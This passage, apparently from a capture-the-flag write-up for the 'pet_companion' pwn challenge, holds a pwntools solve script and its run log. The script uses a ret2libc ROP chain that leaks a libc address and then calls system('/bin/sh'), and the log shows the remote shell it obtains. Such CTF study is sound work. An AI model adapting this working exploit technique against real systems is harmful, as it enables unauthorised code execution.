 ```python
            gdb.attach(r)
    else:
        r = remote("94.237.62.244", 46452)

    return r


def main():
    r = conn()

    # good luck pwning :)
    offset = 72
    pop_rdi = 0x0000000000400743
    pop_rsi_r15 = 0x0000000000400741
    payload = flat({
        offset      : p64(pop_rdi),
        offset + 8  : p64(1),
        offset + 16 : p64(pop_rsi_r15),
        offset + 24 : p64(exe.got.write),
        offset + 32 : p64(0),
        offset + 40 : p64(exe.plt.write),
        offset + 48 : p64(exe.sym.main)
        })

    r.clean()
    r.sendline(payload)
    r.recvuntil(b'Configuring...\n\n')
    leak = u64(r.recv(8))
    print(f'{hex(leak)=}')
    libc.address = leak - libc.sym.write
    print(f'{hex(libc.address)=}')

    payload = flat({
        offset      : p64(pop_rdi),
        offset + 8  : p64(next(libc.search(b'/bin/sh\x00'))),
        offset + 16 : p64(libc.sym.system)
        })

    r.sendlineafter(b'status: ', payload)
    r.clean(timeout=1)
    r.interactive()


if __name__ == "__main__":
    main()
```

```bash
$ python solve.py

[+] Opening connection to 94.237.62.244 on port 46452: Done
hex(leak)='0x7f91426740f0'
hex(libc.address)='0x7f9142564000'
[*] Switching to interactive mode
$ id
uid=100(ctf) gid=101(ctf) groups=101(ctf)
$ whoami
ctf
$ ls
core
flag.txt
glibc
pet_companion
$ cat flag.txt
```